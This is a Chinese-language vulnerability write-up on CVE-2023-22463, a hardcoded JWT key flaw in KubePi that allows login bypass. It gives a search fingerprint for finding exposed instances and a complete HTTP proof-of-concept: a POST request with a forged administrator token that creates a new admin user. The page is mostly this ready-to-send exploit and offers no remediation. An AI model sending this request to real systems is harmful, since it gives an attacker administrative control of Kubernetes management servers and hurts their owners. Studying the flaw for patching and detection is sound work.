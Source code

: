 # KubePi JwtSigKey 登陆绕过漏洞 CVE-2023-22463

## 漏洞描述

KubePi 中存在 JWT硬编码，攻击者通过硬编码可以获取服务器后台管理权限，添加任意用户

## 漏洞影响

<a-checkbox checked>KubePi </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"kubepi"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1690696537476-99918b4b-0282-46f5-a2ed-231c59aa0400.png)

验证POC

```http
POST /kubepi/api/v1/users HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36
accept: application/json
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJuaWNrTmFtZSI6IkFkbWluaXN0cmF0b3IiLCJlbWFpbCI6InN1cHBvcnRAZml0MmNsb3VkLmNvbSIsImxhbmd1YWdlIjoiemgtQ04iLCJyZXNvdXJjZVBlcm1pc3Npb25zIjp7fSwiaXNBZG1pbmlzdHJhdG9yIjp0cnVlLCJtZmEiOnsiZW5hYmxlIjpmYWxzZSwic2VjcmV0IjoiIiwiYXBwcm92ZWQiOmZhbHNlfX0.XxQmyfq_7jyeYvrjqsOZ4BB4GoSkfLO2NvbKCEQjld8

{
  "authenticate": {
       "password": "{{randstr}}"
  },
  "email": "{{randstr}}@qq.com",
  "isAdmin": true,
  "mfa": {
          "enable": false
   },
  "name": "{{randstr}}",
  "nickName": "{{randstr}}",
  "roles": [
       "Supper User"
  ]
}
```

![image-20230813162451716](../../../.vuepress/public/img/image-20230813162451716.png)